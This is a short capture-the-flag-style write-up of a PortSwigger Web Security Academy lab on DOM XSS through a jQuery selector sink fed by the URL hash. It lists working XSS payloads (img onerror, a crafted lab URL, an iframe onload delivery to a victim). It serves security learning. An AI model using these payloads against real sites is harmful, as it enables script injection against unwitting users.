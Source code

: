 Title: DOM XSS in jQuery selector sink using a hashchange event

TIP: see $() -> try to use onload="<img src=x onerror=print()>">


So, the vulnerable code is like that:
![image](https://github.com/user-attachments/assets/f867ea10-e7cf-45d6-862a-da1eb292aa06)

It takes chars after '#' sign in the URL and try to find an <h2> element inside a section with the class blog-list whose 
text contains the decoded hash string

What is important - here this site use jQuery selector $(), and we can inject malicious HTML element with our XSS code into this selector.

The easiest way to exploit this logic is by using this payload:
`<img src=x onerror=print()>`
URL would look like that
`https://0a0b008f03d9b4fe809908d200ff001b.web-security-academy.net/#<img src=x onerror=print()>`

But also we can use more complicated payload:
`#onload="<img src=x onerror=print()>">`
`#" onload="this.src+='<img src=x onerror=print()>'">`

And we can use this vulerability sending email to the victim, using iframe as additional layer:
<iframe src="https://0a0b008f03d9b4fe809908d200ff001b.web-security-academy.net#" onload="this.src+='<img src=x onerror=print()>'"></iframe>





